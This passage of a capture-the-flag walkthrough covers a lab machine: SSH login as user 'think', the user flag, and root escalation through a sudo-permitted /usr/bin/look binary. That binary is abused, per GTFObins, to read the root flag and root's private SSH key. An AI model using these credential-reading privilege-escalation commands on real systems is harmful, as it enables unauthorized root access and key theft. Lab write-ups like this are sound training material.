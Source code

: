 ## First Access

Now we can access 'think' [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) and read the user flag :

```
think@ip-10-10-116-56:~$ ls
user.txt
think@ip-10-10-116-56:~$ cat user.txt 
38375fb4dd8baa2b2039ac03d92b820e
```
# Privilege Escalation

We start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) to root with sudo -l :

```
think@ip-10-10-116-56:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-116-56:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-116-56:
    (ALL) /usr/bin/look

```

## GTFObins

We can check [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) to see if we can exploit this somehow :

![Pasted image 20250719175202.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250719175202.png) 

Let's try it to see the root flag :
```
think@ip-10-10-116-56:/$ sudo usr/bin/look '' "/root/root.txt"
5a285a9f257e45c68bb6c9f9f57d18e8
```

We can also copy root ssh key to our Kali machine and use it to root ssh :

```
think@ip-10-10-116-56:/$ sudo usr/bin/look '' "/root/.ssh/id_rsa"
```

Remember to make it readable with chmod 600 .